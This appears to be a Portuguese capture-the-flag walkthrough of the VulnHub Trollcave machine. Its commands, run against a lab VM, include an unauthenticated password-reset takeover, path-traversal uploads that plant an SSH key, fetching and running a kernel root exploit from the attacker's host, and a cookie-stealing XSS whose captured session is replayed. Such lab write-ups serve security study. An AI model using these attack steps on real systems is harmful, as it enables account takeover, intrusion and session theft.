

- Máquinas do VulnHub e similares que rodamos localmente sobem em DHCP e não nos informam o IP atribuído. Então primeiro identificamos o IP local (neste cenário, tanto atacante quanto Trollcave estão sendo virtualizados no VirtualBox em uma rede apartada): 
- 
# Service Enumeration
## Port Scan (Nmap)
### All Ports
```txt
2024-01-19 12:33:58  nmap -p- 192.168.56.3
Starting Nmap 7.94 ( https://nmap.org ) at 2024-01-19 12:33 -03
Nmap scan report for 192.168.56.3
Host is up (0.00032s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 109.93 seconds
```
### Services
```txt
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.10.3 (Ubuntu)
```

## Nikto
```txt
2024-01-19 12:37:34  nikto -host 192.168.56.3
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          192.168.56.3
+ Target Hostname:    192.168.56.3
+ Target Port:        80
+ Start Time:         2024-01-19 12:37:34 (GMT-3)
---------------------------------------------------------------------------
+ Server: nginx/1.10.3 (Ubuntu)
+ /: Cookie _thirtytwo_session created without the httponly flag. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies
+ /: Uncommon header 'x-runtime' found, with contents: 0.020883.
+ /: Uncommon header 'x-request-id' found, with contents: 7247a9b3-512f-4015-8eea-4b1bd664be23.
+ /BE5MG5t5.php+: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ nginx/1.10.3 appears to be outdated (current is at least 1.20.1).
+ /login/: This might be interesting.
+ /login.php3?reason=chpass2%20: This might be interesting: has been seen in web logs from an unknown scanner.
+ /login.asp: Admin login page/section found.
+ /login.html: Admin login page/section found.
+ /login.php: Admin login page/section found.
+ 8103 requests: 0 error(s) and 10 item(s) reported on remote host
+ End Time:           2024-01-19 12:38:02 (GMT-3) (28 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

## Feroxbuster
```txt
2024-01-19 12:38:56    feroxbuster -e -k -r -x php,pdf,js,html,htm,txt,asp,aspx -u http://192.168.56.3

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.10.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://192.168.56.3
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.10.0
 💉  Config File           │ /home/johnny/.config/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 💲  Extensions            │ [php, pdf, js, html, htm, txt, asp, aspx]
 🏁  HTTP methods          │ [GET]
 🔓  Insecure              │ true
 📍  Follow Redirects      │ true
 🔃  Recursion Depth       │ 4
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET       67l      176w     1564c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET      404l     1083w    10512c http://192.168.56.3/assets/application-152e0b6420893f14eeb6f908ca26bc60cca1bf773cbe0cb0a493fe7541d77b7a.css
200      GET       62l      143w     2208c http://192.168.56.3/login
200      GET       98l      407w     4016c http://192.168.56.3/
200      GET      476l     2730w   243147c http://192.168.56.3/assets/640px-Troll_Warning-7609c691efcf3b8040566ae6a4ccc54c44f3cc1cb028a0eb8eebef8259fca7a6.jpg
200      GET    11699l    47519w   329646c http://192.168.56.3/assets/application-88d4cbee7b3f8591b7ccf003c3923c922b1e3fef8487fb1f09c4fc434c1bcb3d.js
200      GET       21l       70w     4765c http://192.168.56.3/uploads/King/crown.png
200      GET       51l      270w    20778c http://192.168.56.3/uploads/dave/dave.png
200      GET       64l      119w     1780c http://192.168.56.3/users/15
200      GET       64l      119w     1770c http://192.168.56.3/users/16
200      GET       29l      192w    17110c http://192.168.56.3/uploads/coderguy/ruby.png
200      GET       64l      119w     1764c http://192.168.56.3/users/17
200      GET       74l      192w     2357c http://192.168.56.3/users/5
200      GET       96l      217w     2776c http://192.168.56.3/blogs/7
200      GET       29l      138w    10500c http://192.168.56.3/uploads/cooldude89/poochie.jpg
200      GET       79l      162w     2165c http://192.168.56.3/blogs/2
200      GET       78l      251w     2579c http://192.168.56.3/blogs/1
200      GET       86l      211w     2578c http://192.168.56.3/blogs/4
200      GET      102l      329w     3471c http://192.168.56.3/blogs/6
200      GET       74l      190w     2339c http://192.168.56.3/users/4
200      GET       62l      143w     2208c http://192.168.56.3/login.php
200      GET       74l      164w     2160c http://192.168.56.3/users/2
200      GET       73l      186w     2222c http://192.168.56.3/users/12
200      GET       74l      176w     2256c http://192.168.56.3/users/1
500      GET       66l      160w     1477c http://192.168.56.3/login.pdf
200      GET       17l       51w      707c http://192.168.56.3/login.js
200      GET       62l      143w     2208c http://192.168.56.3/login.html
200      GET       62l      143w     2208c http://192.168.56.3/login.htm
500      GET       66l      160w     1477c http://192.168.56.3/login.txt
200      GET       62l      143w     2208c http://192.168.56.3/login.asp
200      GET       62l      143w     2208c http://192.168.56.3/login.aspx
200      GET        5l       33w      202c http://192.168.56.3/robots.txt
200      GET       66l      160w     1477c http://192.168.56.3/500
200      GET       66l      160w     1477c http://192.168.56.3/500.html
[####################] - 11m   270297/270297  0s      found:33      errors:0
[####################] - 11m   270000/270000  404/s   http://192.168.56.3/
```

## Key Information

A página principal apresenta um "blog comunitário", e um dos posts chama a atenção por mencionar um serviço para reiniciar senhas em `password_resets`...
```shell
http -p b http://192.168.56.3/ | grep "/users/" -A3 -B3
```
![[Trollcave-20240119190529030.webp]]
A postagem completa em `/blogs/6`:
```shell
http -p b http://192.168.56.3/blogs/6 | grep '<p>'
```
![[Trollcave-20240119190646599.webp]]
Eu sabia de alguma coisa de Ruby? Nada. Então vamos estudar https://stackoverflow.com/questions/4439425/in-ruby-on-rails-what-does-resource-mean
```embed
title: "In Ruby on Rails, what does “resource” mean?"
image: "https://cdn.sstatic.net/Sites/stackoverflow/Img/apple-touch-icon@2.png?v=73d79a89bded"
description: "I see the word resource in many different places like: resource Routing, resourceful controller, and resources: photos. What does resource actually mean? One more question: What does RESTful route…"
url: "https://stackoverflow.com/questions/4439425/in-ruby-on-rails-what-does-resource-mean"
```
Então a gente poderia testar algo como `password_resets/new`, certo? Bingo, temos um form!
E, falando em segurança, que coisa bonita - temos um `authenticity_token` além do campo `password_reset[name]` e `commit` do form, que possivelmente é gerado dinâmicamente cada vez que a página é carregada... Confirmamos? Confirmamos.
```shell
http --pretty all http://192.168.56.3/password_resets/new | grep "form\|input
```
![[Trollcave-20240119145856924.webp]]
Mas será que a gente precisa dele? Vamos tentar só mandar as coisas do form.
```shell
http -v -f POST http://192.168.56.3/password_resets/ 'password_reset[name]'=xer commit='Reset password'
```
![[Trollcave-20240119185233560.webp]]
Deu bom 👍![[Trollcave-20240119185258060.webp]]
E deu bom mesmo, eu acabei de refazer uma parte gigante disso aqui porque eu achava que precisava e tinha ficado gigante pra identificar e pegar e usar aquela desgraça do token.
```shell
http -v 'http://192.168.56.3/password_resets/edit.HbUiE8c5ssc2do3_oUbIcA?name=xer
```
![[Trollcave-20240119185542837.webp]]
Temos mais um form, então, para efetivamente reiniciar a senha do usuário xer.![[Trollcave-20240119185708386.webp]]
Troca de senha também deu bom 👍
```shell
http -v -f PATCH 'http://192.168.56.3/password_resets/' name=xer 'user[password]'='12345abcde' 'user[password_confirmation]'='12345abcde' commit='Reset password'
```
![[Trollcave-20240119190108384.webp]]
Mas será que deu mesmo? Só tentando logar pra ver... o login fica em, obviamente, `/login`:
```shell
http -p b --pretty all http://192.168.56.3/login | grep "'login'" -A9
```
![[Trollcave-20240119190935110.webp]]
Aqui, algo deu errado... 
```shell
http http://192.168.56.3/login 'session[name]'=xer 'session[password]'=12345abcde commit='Log in'
```
![[Trollcave-20240119193529710.webp]]
Depois de apanhar um tanto, eu descobri que esse ponto é um em que o `authenticity_token` é necessário!
```shell
http --session trollcave_xer -v -f http://192.168.56.3/login 'session[name]'='xer' 'session[password]'='12345abcde' 'commit'='Log in' 'utf8'='&#x2713;' 'authenticity_token'='L51axm5fvySOQowiXv6JusbMR6w3UFasL7GQe5XE1e8r+5YLus01QXH5qsy9azheBvtWTDMMCjrdsJN8UeoNZg=='
```
![[Trollcave-20240119193657822.webp]]
Agora sim, estamos logados com `xer` e achamos algo de novo no código da página inicial:
```shell
http --pretty all --session trollcave_xer http://192.168.56.3/ | grep 'site-top-navbar' -A9
```
![[Trollcave-20240119193853333.webp]]
Agora que a gente tem um usuário, temos que pensar em como usar este acesso. Dando uma olhada de novo nos posts do blog, vemos que um é ativamente monitorado pelos moderadores:
```shell
http --pretty all --session trollcave_xer http://192.168.56.3/ | grep 'blogs/4' -A5
```
![[Trollcave-20240119194147361.webp]]
Será que dá pra postar algo por lá? Se der, será que a gente pode usar um XSS pra roubar os cookies do moderador?
Nesse passo eu vou usar um negócinho que eu curto bastante: o `sed` pra remover quebras de linha, encontrar um trecho de html, e depois colocar outras quebras de linha de volta:
```shell
http --pretty none --session trollcave_xer http://192.168.56.3/blogs/4 | sed -E ':a;N;$!ba;s#\n##g;s#.*(<form.*?/form>).*#\1#;s#><#>\n<#g'
```
![[Trollcave-20240119195130611.webp]]
Achamos então o formulário dos comentários. Será que aqui vai precisar do `authenticity_token`? Vou tentar sem primeiro.
```shell
http --session trollcave_xer -f POST http://192.168.56.3/comments comment[content]='teste 123 <script>alert("XSS")</script>' comment[blog_id]=4 commit='Post comment'
```
![[Trollcave-20240119195521088.webp]]
Nada feito, 422 na minha cara. Vamos com ele então.
```shell
http --session trollcave_xer -f POST http://192.168.56.3/comments comment[content]='teste 123 <script>alert("XSS")</script>' comment[blog_id]=4 commit='Post comment' authenticity_token="$(http --session trollcave_xer http://192.168.56.3/password_resets/new | grep -Po 'authenticity_token" value="\K[^"]+')"
```
![[Trollcave-20240119195811468.webp]]
Parece que não deu bom dessa vez 👎![[Trollcave-20240119195925361.webp]]
Talvez tenha algum outro payload XSS que funcione, alguma técnica de evasão... mas... e se a gente voltar um pouco? Agora só que eu vi que na página `/password_resets/edit.<string>` termina com `?name=user`... e se a gente tentar abusar isso diretamente pra mudar a senha do King, que não funcionava quando a gente tentava pelo `/password_resets/new`?
```shell
http -v 'http://192.168.56.3/password_resets/edit.OqDMO2aN0BooUotLZYtryA?name=King'
```
![[Trollcave-20240119201610443.webp]]
Mas olha só, deu bom! 👍
```shell
http --pretty all -v 'http://192.168.56.3/password_resets/edit.OqDMO2aN0BooUotLZYtryA?name=King' | grep "form\|input"
```
![[Trollcave-20240119201654140.webp]]
Sabe qual é o pior? Não precisa nem passar por isso, a gente pode ir direto na requisição de PATCH! Primeiro, do King:
```shell
http -v -f PATCH 'http://192.168.56.3/password_resets/' name=King 'user[password]'='12345abcde' 'user[password_confirmation]'='12345abcde' commit='Reset password'
```
Parece que deu bom! 👍![[Trollcave-20240119202001001.webp]]
O King é Superadmin, vamos tentar do dave que é admin? Parece que deu bom👍
```shell
http -v -f PATCH 'http://192.168.56.3/password_resets/' name=dave 'user[password]'='12345abcde' 'user[password_confirmation]'='12345abcde' commit='Reset password'
```
![[Trollcave-20240119202218329.webp]]
```shell
http --session trollcave_dave -v -f http://192.168.56.3/login 'session[name]'='dave' 'session[password]'='12345abcde' 'commit'='Log in' 'utf8'='&#x2713;' 'authenticity_token'="$(http --session trollcave_dave http://192.168.56.3/login | grep -Po 'authenticity_token" value="\K[^"]+')"
```
![[Trollcave-20240119215524209.webp]]
```shell
http --pretty all --session trollcave_dave http://192.168.56.3/ | grep 'site-top-navbar' -A9
```
![[Trollcave-20240119215659892.webp]]
Só pra confirmar que deu bom do King também
```shell
http --pretty all --session trollcave_King http://192.168.56.3/ | grep 'site-top-navbar' -A9
```
![[Trollcave-20240119220259852.webp]]
O que será que tem no `/admin`?
```shell
http --pretty all --session trollcave_King http://192.168.56.3/admin | grep -Pzo "admin-settings(.*\n)*"
```
![[Trollcave-20240119220935065.webp]]
Será que a gente pode ativar o upload? Fácil assim?
```shell
http --pretty all --session trollcave_King -f PATCH http://192.168.56.3/admin admin_setting[enable_file_upload]=1 commit='Save settings' authenticity_token="$(http --session trollcave_King http://192.168.56.3/admin | grep -Po 'authenticity_token" value="\K[^"]+')"
```
![[Trollcave-20240119221537667.webp]]
Mais uma vez: parece que deu bom👍 achei até melhor destacar pra ficar mais fácil de identificar onde ver que deu bom![[Trollcave-20240119221805012.webp]]
Mas aqui não mudou nada além desse check... esqueci de ver algo em algum lugar? Ah sim, tem ali atrás do `/user_files`.
```shell
http --pretty all --session trollcave_King http://192.168.56.3/user_files | grep "form\|input"
```
![[Trollcave-20240119221943199.webp]]
Temos então um formulário pra fazer upload... Vamos tentar subir um shell reverso simples, rapidinho.
```shell
http --pretty all --session trollcave_King -f http://192.168.56.3/user_files user_file[file]@/usr/share/seclists/Web-Shells/PHP/obfuscated-phpshell.php user_file[name]=rev.php commit=Upload authenticity_token="$(http --session trollcave_King http://192.168.56.3/user_files | grep -Po 'authenticity_token" value="\K[^"]+')"
```
![[Trollcave-20240119222505616.webp]]
Será que vai ser tão fácil assim? Foi.
```shell
http --pretty all --session trollcave_King http://192.168.56.3/user_files | grep "rev" -C2
```
![[Trollcave-20240119222558136.webp]]
O arquivo subiu... fuçando um pouco a gente encontra onde ele foi parar:
```shell
http --pretty all --session trollcave_King http://192.168.56.3/uploads/King/rev.php
```
![[Trollcave-20240119223900920.webp]]
Mas ele nos devolve o código fonte. Parece que não temos php rodando aqui. O mesmo acontece com um shell reverso de ruby on rails, só vem o código fonte, nada de execução... Será que a gente consegue subir arquivos pra outros lugares do site?
```shell
http --pretty all --session trollcave_King -f http://192.168.56.3/user_files user_file[file]@teste.html user_file[name]='../teste.html' commit=Upload authenticity_token="$(http --session trollcave_King http://192.168.56.3/user_files | grep -Po 'authenticity_token" value="\K[^"]+')"
```
![[Trollcave-20240119224313670.webp]]
Funciona!
```shell
http --pretty all --session trollcave_King http://192.168.56.3/uploads/teste.html
```
![[Trollcave-20240119224354326.webp]]
Bora fazer uma chave pra tentar acessar isso por SSH.
![[Trollcave-20240119224521360.webp]]
Bora subir...
```shell
http --pretty all --session trollcave_King -f http://192.168.56.3/user_files user_file[file]@rails user_file[name]='../../../../../../../home/rails/.ssh/authorized_keys' commit=Upload authenticity_token="$(http --session trollcave_King http://192.168.56.3/user_files | grep -Po 'authenticity_token" value="\K[^"]+')"
```
![[Trollcave-20240119224624442.webp]]
E bora testar... mentira, vamos importar de novo o .ova porque se você prestar atenção no comando acima eu fiz uma coisa errada demais: eu subi a chave privada pro `authorized_keys` ao invés da chave pública. E essa vulnerabilidade só funciona uma vez, ela não sobrescreve um arquivo existente:
![[Trollcave-20240119225954057.webp]]
Mas como a gente já chegou até aqui, fica mais fáil - é só refazer o nmap pra achar o IP novo da máquina (mudou pro final .101) e executar de novo a requisição PATCH pra alterar a senha do King.
![[Trollcave-20240119230103080.webp]]
E refazer o login do King na sessão do HTTPie:
![[Trollcave-20240119230235485.webp]]
Não esquece de reativar o upload!!!
![[Trollcave-20240119232217587.webp]]
E aí sim refazer o upload, dessa vez prestando atenção pra usar o arquivo `rails.pub`:
```shell
http --pretty all --session trollcave_King -f http://192.168.56.101/user_files user_file[file]@rails.pub user_file[name]='../../../../../../../home/rails/.ssh/authorized_keys' commit=Upload authenticity_token="$(http --session trollcave_King http://192.168.56.101/user_files | grep -Po 'authenticity_token" value="\K[^"]+')"
```
![[Trollcave-20240119230411716.webp]]
```shell
ssh -i rails rails@192.168.56.101
```
![[Trollcave-20240119232331414.webp]]
Tantas opções daqui... a minha favorita é sempre o linpeas. um `wget`, um `chmod +x` e um `/bin/bash /home/rails/linpeas.sh` depois... temos um monte de exploits pra usar. Eu gosto de ir na ordem que o Linpeas vai passando =p vamos ver esse [eBPF](https://www.exploit-db.com/exploits/45010)
```embed
title: "Linux Kernel < 4.13.9 (Ubuntu 16.04 / Fedora 27) - Local Privilege Escalation"
image: "https://www.exploit-db.com/images/spider-orange.png"
description: "Linux Kernel < 4.13.9 (Ubuntu 16.04 / Fedora 27) - Local Privilege Escalation. CVE-2017-16995 . local exploit for Linux platform"
url: "https://www.exploit-db.com/exploits/45010"
```
Deu bom 👍
```shell
wget http://192.168.56.1:8000/eBPF.c -q
gcc-5 eBPF.c -o eBPF
./eBPF
```
![[Trollcave-20240120001441629.webp]]
Que que falta agora? A flag.
```shell
root@trollcave:~# ls /root
flag.txt
root@trollcave:~# cat /root/flag.txt
et tu, dragon?

c0db34ce8adaa7c07d064cc1697e3d7cb8aec9d5a0c4809d5a0c4809b6be23044d15379c5
```
![[Trollcave-20240120001603972.webp]]

Mas eu comecei essa máquina querendo fazer session hijacking, eu encontrei essa VM procurando por session hijacking... onde eu errei? Vamos pesquisar outras resenhas dessa máquina.

https://medium.com/egghunter/trollcave-1-2-vulnhub-walkthrough-dad77941eab8
```embed
title: "Trollcave: 1.2 | Vulnhub Walkthrough"
image: "https://miro.medium.com/v2/resize:fit:608/1*wvhAEcpZukChwcUBoplspw.png"
description: "It is not every day that you bump into a vulnhub machine that is realistic. I belong to the guild of realism and believes that boxes…"
url: "https://medium.com/egghunter/trollcave-1-2-vulnhub-walkthrough-dad77941eab8"
```

Hmmmm... então ao invés de abusar daquele `PATCH`, a gente pode fazer um XSS em comentário, como eu tinha tentado antes e desencanei. Faz sentido, lembrando aquela outra postagem no blog:
```shell
http --pretty all --session trollcave_xer http://192.168.56.101/blogs/4 | grep "users/5" -A4
```
![[Trollcave-20240120002505845.webp]]
Então parece que o cara que criou a VM fez um sistema que monitora as coisas daqui. Bom, o egghunter fez pelo navegador, vamos ver se eu consigo replicar por terminal 😀
Eu não sou muito experiente com XSS, então a gente pergunta pro Google:
https://github.com/R0B1NL1N/WebHacking101/blob/master/xss-reflected-steal-cookie.md
```embed
title: "xss-reflected-steal-cookie.md"
image: "https://github.com/favicon.ico"
description: ""
url: "https://github.com/R0B1NL1N/WebHacking101/blob/master/xss-reflected-steal-cookie.md"
```
Gostei do último exemplo de código:
```html

```
Vamos, então, refazer o login do xer (a gente refez a máquina, lembra?) pra subir o comentário com essa img pra testar:
```shell
http -v -f PATCH 'http://192.168.56.101/password_resets/' name=xer 'user[password]'='12345abcde' 'user[password_confirmation]'='12345abcde' commit='Reset password'

http --session trollcave_xer -v -f http://192.168.56.101/login 'session[name]'='xer' 'session[password]'='12345abcde' 'commit'='Log in' 'utf8'='&#x2713;' 'authenticity_token'="$(http --session trollcave_xer http://192.168.56.101/password_resets/new | grep -Po 'authenticity_token" value="\K[^"]+')"

http --session trollcave_xer -f POST http://192.168.56.101/comments comment[content]="'" comment[blog_id]=4 commit='Post comment' authenticity_token="$(http --session trollcave_xer http://192.168.56.101/blogs/4 | grep -Po 'authenticity_token" value="\K[^"]+')"
```
E a gente recebeu o quê? Cookie!
```
192.168.56.101 - - [20/Jan/2024 00:38:55] "GET /?_thirtytwo_session=Tnc1S0NadjVQTWd1TlVDcVp5bFVGUjdqUmc4RFB0ZzRVeXEwYit3LzZjLzEvMkw3R1lxVmtBbzRCZzVTbHJSR244b0l2bWg5cjJVclZjUCtudjdkUFA4cUFGR05zaFRmNzNGVVBBZ1hDUk5FVVBwcDNXd2p3aGcxeWxHM3pRTG1tVkFFNmU2Nmw4cWNqbUFmUGJWblV6bGVHaEFZSitwMzJMSEFodE9tZFkwbW00bDFWWi9kWlFXQ3VOTlVucmduYVhreEhqZUwzcnR4cUkrUjdsOXYwVHlmZEo0RWJyMWRqbkRNaVE3aGhLST0tLThwL1hwSm1MQXBtWXoyb0tZaTZ0Y2c9PQ%3D%3D--e500d1acb73005b8fe8ecb7ca27788e1e197ad36;%20user_id=NQ%3D%3D--70e5c8bd2a9640c394638691bc5c2b87b96f3899;%20remember_token=lrlZbcMatmiq--ghJIKsVw;%20_thirtytwo_session=YWVCcFBzNHlBQ3Vxa215aHdzNFhMTEIwYzJVQmpYUkxCbVBpd0pQazM1bHRVdGs3QlE4WThLeExpcFpRb3VQYWJqdldZMUVhWXE5SUlUeGVxZjFoYjFmWTREQUxpKzV4S3pPZmtFRkNQTEFvektQemVrcmJoa0d0WDlCcmtEVEFUekdpRVVMN1owRGsvN1dsSjh4b3VJRzZVeWtMUUhXQkVFWlRqKytmOFo2SWhBc0gyQ3pQcjJZdTE0KzFXRHR4OGtubHMyck9kY2lMVTg3cTVZRkJjWE85WjduOGdXdVZLcXNpUEdGczRvWT0tLUVWckE4Q05yWkYxRU9VWTlBMExZUUE9PQ%3D%3D--c42537882f7b3a65abf9982a65cdce7401a25465 HTTP/1.1" 200 -
```
Vamos tentar arrumar isso:
```txt
_thirtytwo_session=Tnc1S0NadjVQTWd1TlVDcVp5bFVGUjdqUmc4RFB0ZzRVeXEwYit3LzZjLzEvMkw3R1lxVmtBbzRCZzVTbHJSR244b0l2bWg5cjJVclZjUCtudjdkUFA4cUFGR05zaFRmNzNGVVBBZ1hDUk5FVVBwcDNXd2p3aGcxeWxHM3pRTG1tVkFFNmU2Nmw4cWNqbUFmUGJWblV6bGVHaEFZSitwMzJMSEFodE9tZFkwbW00bDFWWi9kWlFXQ3VOTlVucmduYVhreEhqZUwzcnR4cUkrUjdsOXYwVHlmZEo0RWJyMWRqbkRNaVE3aGhLST0tLThwL1hwSm1MQXBtWXoyb0tZaTZ0Y2c9PQ%3D%3D--e500d1acb73005b8fe8ecb7ca27788e1e197ad36

user_id=NQ%3D%3D--70e5c8bd2a9640c394638691bc5c2b87b96f3899

remember_token=lrlZbcMatmiq--ghJIKsVw

_thirtytwo_session=YWVCcFBzNHlBQ3Vxa215aHdzNFhMTEIwYzJVQmpYUkxCbVBpd0pQazM1bHRVdGs3QlE4WThLeExpcFpRb3VQYWJqdldZMUVhWXE5SUlUeGVxZjFoYjFmWTREQUxpKzV4S3pPZmtFRkNQTEFvektQemVrcmJoa0d0WDlCcmtEVEFUekdpRVVMN1owRGsvN1dsSjh4b3VJRzZVeWtMUUhXQkVFWlRqKytmOFo2SWhBc0gyQ3pQcjJZdTE0KzFXRHR4OGtubHMyck9kY2lMVTg3cTVZRkJjWE85WjduOGdXdVZLcXNpUEdGczRvWT0tLUVWckE4Q05yWkYxRU9VWTlBMExZUUE9PQ%3D%3D--c42537882f7b3a65abf9982a65cdce7401a25465
```
Dois iguais? Vamos pegar só o primeiro deles. O comando limpinho fica assim:
```shell
http -v http://192.168.56.101/ "Cookie:_thirtytwo_session=Tnc1S0NadjVQTWd1TlVDcVp5bFVGUjdqUmc4RFB0ZzRVeXEwYit3LzZjLzEvMkw3R1lxVmtBbzRCZzVTbHJSR244b0l2bWg5cjJVclZjUCtudjdkUFA4cUFGR05zaFRmNzNGVVBBZ1hDUk5FVVBwcDNXd2p3aGcxeWxHM3pRTG1tVkFFNmU2Nmw4cWNqbUFmUGJWblV6bGVHaEFZSitwMzJMSEFodE9tZFkwbW00bDFWWi9kWlFXQ3VOTlVucmduYVhreEhqZUwzcnR4cUkrUjdsOXYwVHlmZEo0RWJyMWRqbkRNaVE3aGhLST0tLThwL1hwSm1MQXBtWXoyb0tZaTZ0Y2c9PQ%3D%3D--e500d1acb73005b8fe8ecb7ca27788e1e197ad36; user_id=NQ%3D%3D--70e5c8bd2a9640c394638691bc5c2b87b96f3899; remember_token=lrlZbcMatmiq--ghJIKsVw"
```
![[Trollcave-20240120004623196.webp]]
Deu bom, hein!
![[Trollcave-20240120004728778.webp]]
Aqui a gente conseguiu acesso com o moderador `cooldude`... Será que tem mais coisa no blog?
![[Trollcave-20240120005023231.webp]]
Mas tem outra coisa muito estranha nesse aqui:
![[Trollcave-20240120005232623.webp]]
Parece que esse era um jeito mais fácil de descobrir o `/uploads`, hein? Eu perdi um tempinho procurando exemplos de upload público pra achar. Mas apesar do nome, não adianta querer ficar emocionado, esse caminho do avatar não tem nada, dá 404:
![[Trollcave-20240120005744333.webp]]
Vamos fuçar que mais tem no blog, porque eu não lembrava de ter visto esse post 3 aí de cima antes... tem um "blogs/8":
![[Trollcave-20240120010054280.webp]]
Acho que eu não fucei a página `/users` ainda... vamos ver:
![[Trollcave-20240120010623056.webp]]
Tá, não tem link pra promover Admin ou Moderador, mas tem pra promover usuários comuns... como o xer, que a gente já resetou a senha. Mas a gente pode resetar a senha de todo mundo, então isso não é problema.
O link de promover é sempre `/users/<id>/mod`... será que a gente coonsegue burlar isso pra promover um moderador a admin?
Primeira tentativa foi 422, vamos lá pegar a desgraça do ... não, para tudo. Aqui na página `/users` tem `authenticity_token`, mas lá nos meta! Espertinhos.
```shell
http --pretty all -f POST http://192.168.56.101/users/7/mod authenticity_token="LRxp/c4vwgoWsYsrIujDEoPI8E9OxQnaLicRyKTVzhWQXLCbHn51VMgcPi4vMdc5eZeJU8tGfQFtSq9XyP3qGA==" "Cookie:_thirtytwo_session=Tnc1S0NadjVQTWd1TlVDcVp5bFVGUjdqUmc4RFB0ZzRVeXEwYit3LzZjLzEvMkw3R1lxVmtBbzRCZzVTbHJSR244b0l2bWg5cjJVclZjUCtudjdkUFA4cUFGR05zaFRmNzNGVVBBZ1hDUk5FVVBwcDNXd2p3aGcxeWxHM3pRTG1tVkFFNmU2Nmw4cWNqbUFmUGJWblV6bGVHaEFZSitwMzJMSEFodE9tZFkwbW00bDFWWi9kWlFXQ3VOTlVucmduYVhreEhqZUwzcnR4cUkrUjdsOXYwVHlmZEo0RWJyMWRqbkRNaVE3aGhLST0tLThwL1hwSm1MQXBtWXoyb0tZaTZ0Y2c9PQ%3D%3D--e500d1acb73005b8fe8ecb7ca27788e1e197ad36; user_id=NQ%3D%3D--70e5c8bd2a9640c394638691bc5c2b87b96f3899; remember_token=lrlZbcMatmiq--ghJIKsVw"
```
![[Trollcave-20240120011841152.webp]]
Será? Sim, o Q agora é Admin.
![[Trollcave-20240120011931102.webp]]
E super...? Não, mas tá lá como Admin, já serve. Aqui a gente reseta (`PATCH`, lembra?) a senha do Q, ativa o upload e vai ser feliz como já fizemos o resto =)
